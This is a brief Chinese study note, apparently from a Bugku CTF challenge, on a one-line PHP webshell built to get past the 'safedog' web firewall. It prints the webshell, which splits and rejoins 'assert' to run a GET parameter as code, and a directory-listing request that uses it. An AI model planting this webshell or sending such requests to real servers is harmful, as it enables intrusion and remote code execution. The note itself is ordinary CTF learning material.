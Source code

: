 ```yaml
---
title: 过狗一句话
---
```

做到BUGKU的过狗一句话，这里学到一个扫描目录的方法，一定程度上解决了御剑的问题。
一句话如下：
	<?php $poc = "a#s#s#e#r#t";
	$poc_1 = explode("#", $poc);
	$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];（***）
	$poc_2($_GET['s'])
	?>
扫描如下：
	?s=print_r(scandir('./'))
	
	
注：这里有个疑问，（***）行到底做了啥